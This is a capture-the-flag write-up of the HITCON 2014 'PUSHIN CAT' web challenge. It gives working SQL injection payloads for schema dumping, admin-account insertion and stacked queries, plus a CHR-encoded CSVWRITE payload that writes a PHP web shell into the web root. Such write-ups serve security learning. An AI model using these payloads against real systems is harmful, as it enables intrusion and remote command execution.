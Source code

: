 # HITCON CTF 2014: PUSHIN CAT

**Category:** Web
**Points:** 350
**Description:**

> http://203.66.14.60/

**Hint:**

> The flag is file based. Try to get shell :P

## Write-up

Basically PUSHIN CAT offers only three functionalities: login, registration and the deceptive [“Get flag”](http://203.66.14.60/flag.html). The last one tells us “You are not admin from `X`”, where `X` is our IP address.

The displayed IP address quickly leads down a wrong route because trying to forge a local IP address (e.g. 127.0.0.1) with HTTP headers does not work. However, the registration page seems to be vulnerable to a very basic SQL injection vulnerability, as it responds with a “Query Error” to a single quote in the password field (the detail of the error message seems to have increased since we solved the challenge, so now you even get the surrounding query). Even without seeing the query, one can easily guess that it must be an `INSERT` into the database. After fiddling around with the injection, the format of the SQL query seems to be this one:

```sql
INSERT INTO [something...] VALUES ([some fields], 'INJECTION IN PW', 'IP')
```

This is great news, since the IP value is shown to us when clicking the “Get flag” button. We can further try to obtain the amount of parameters in the query with a multi-INSERT technique: `foo','IP'),(1,2)-- -`. This will insert 2 records into the database. We can continously increase the amount of parameters in the second query until there is no error anymore. This is the case with 4 parameters: `foo','IP'),(1,2,3,4)-- -`.

In order to dump the database schema and content, we can make use of subqueries: The injection syntax is `foo',(select 1))-- -`, where 1 could be any query returning only one row. Additionally, we can use group_concat to group multiple rows together and read out `information_schema.tables` and `information_schema.columns`. From there on we can easily see that the original query roughly looks like this:

```sql
INSERT INTO users (role, username, password, ip) VALUES ('user', $username, $pw (INJECTION HERE), $ip)
```

Using this knowledge, we can build a multi-INSERT injection to create a user with the role “admin”. Logging in with that user and clicking “Get flag” only yields the message “Give shell plz” (IIRC). Another dead end.

A test confirms another interesting property: Multiple SQL statements are allowed in the injection (which is only the case with very few database drivers), so we can use `;` to add other kinds of queries. But let's first re-check the database engine to know our possibilities: The injection `foo',(select version()))-- -` yields `PostgreSQL 8.1.4  server protocol using H2 1.4.178 (2014-05-02)`. Okay, so… Postgres? However, what is this H2 thingy? As it turns out it is the underlying database engine. In order to exploit the server, we can make use of [all functions](http://www.h2database.com/html/functions.html) this database engine exposes. One of them, called `CSVWRITE`, seems to be particularly useful to drop files in the web root. The injection would look like this:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT 1')-- -
```

As can be seen from the syntax, the second parameter to `CSVWRITE` is a query. This example would write a file called `shell.php` in the web root (we guessed that but could also easily check the Apache configuration with file reading functions). However, the file would only contain a `1`. In order to avoid escaping our own quotes, we can use the `CHR(decimal)` function and the concatenation operator. Here is the resulting injection, using all the tricks:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT CHR(60)||CHR(63)||CHR(112)||CHR(104)||CHR(112)||CHR(32)||CHR(115)||CHR(121)||CHR(115)||CHR(116)||CHR(101)||CHR(109)||CHR(40)||CHR(36)||CHR(95)||CHR(71)||CHR(69)||CHR(84)||CHR(91)||CHR(48)||CHR(93)||CHR(41)||CHR(59)||CHR(32)||CHR(63)||CHR(62)')-- -
```

In conclusion, a lot of the difficulity of this challenge came from the multiple dead ends and small steps involved. We certainly tried a billion other attacks before finding this exact route to exploit the web application, but we had a lot of fun while doing it ;-)

## Other write-ups

* none yet
